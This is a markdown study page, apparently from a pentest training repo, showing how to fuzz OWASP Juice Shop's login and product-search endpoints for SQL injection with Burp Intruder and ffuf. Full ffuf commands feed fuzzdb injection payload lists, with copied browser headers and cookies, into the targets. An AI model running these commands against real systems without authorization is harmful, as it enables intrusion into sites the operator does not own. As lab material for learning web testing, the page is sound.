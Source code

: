# Fuzzing
How to fuzz stuff with various command line tools. These were tested against OWASP juice-shop
## burp intruder
1. Send the request (login for example) to the intruder
2. Specify the positions
    * Do one at a time when.
3. Set the paylod
    * Looking for injections
        *  fuzzdb (fuzzdb/attack/sql-injection/detect/xplatform.txt)
3. Unset payload encoding if JSON, leave if URL parameters
    * Only need this for URL parameters
    * For JSON payloads, need to be unset
4. Set `Grep-Match` to match failed condition to have it flagged in the result set (for filtering)
5. Set redirectings to `In-scope only` and `Process cookies in redirections`.
## ffuf
### JSON
Command line fuzzer which can be used on the OSCP
1. Capture the headers from the POST in question (browser, burp, wireshark, etc) and copy the command as a CuRL request. This is to get the headers to add to ffuf. They can be copied as is (e.g. all the -H's and passed directly to ffuf). **Do not interact with the website after this capture**.
2. Construct the POST command replacing the field to fuzz with **FUZZ**.
3. Fuzz and profit
Get the curl command from the browser
![Firefox CuRL](./img/copy_curl_ff.png)
Copy the headers
![CuRL Headers](./img/copy_headers_for_ffuf.png)
```bash
# Make the ffuf command (No Headers)
ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -d '{"email":"FUZZ","password":"ndnd"}' -u http://$TARGET:$PORT/rest/user/login -v -fc 401

ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -d '{"email":"FUZZ","password":"ndnd"}' -u $URL/rest/user/login -v -fc 401

ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -d '{"email":"FUZZ","password":"ndnd"}' -u $URLS/rest/user/login -v -fc 401

# Add the CuRL headers
ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:3000/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=LISjtz-_92JzwZylAAnD; language=en; welcomebanner_status=dismiss; continueCode=zr8x6P25e1gNoBXnbMZjdEjUjTRi2kuzkuxoUWnG4KRWk9lm7vYJVDEOapqw' -d '{"email":"FUZZ","password":"ndnd"}' -u http://$TARGET:$PORT/rest/user/login -v -fc 401

ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:3000/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=LISjtz-_92JzwZylAAnD; language=en; welcomebanner_status=dismiss; continueCode=zr8x6P25e1gNoBXnbMZjdEjUjTRi2kuzkuxoUWnG4KRWk9lm7vYJVDEOapqw' -d '{"email":"FUZZ","password":"ndnd"}' -u $URL/rest/user/login -v -fc 401

ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:3000/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=LISjtz-_92JzwZylAAnD; language=en; welcomebanner_status=dismiss; continueCode=zr8x6P25e1gNoBXnbMZjdEjUjTRi2kuzkuxoUWnG4KRWk9lm7vYJVDEOapqw' -d '{"email":"FUZZ","password":"ndnd"}' -u $URLS/rest/user/login -v -fc 401
```
### URL Parameters
Same method as above for getting the headers from the browser
```bash
ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X GET -u http://$TARGET:$PORT/rest/product/search?q=FUZZ -fc 401

ffuf -w fuzzdb/attack/sql-injection/detect/xplatform.txt -X GET -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:3001/' -H 'Connection: keep-alive' -H 'Cookie: io=1FTREwEtYeiDwMUQAAnL; language=en; welcomebanner_status=dismiss; continueCode=yo5LkY42egO813Dvrdv5UkTViqafgRSxOuzgUO7sEoAQzVbW9XRNmjPpwalZ' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -u http://$TARGET:$PORT/rest/product/search?q=FUZZ -fc 401
```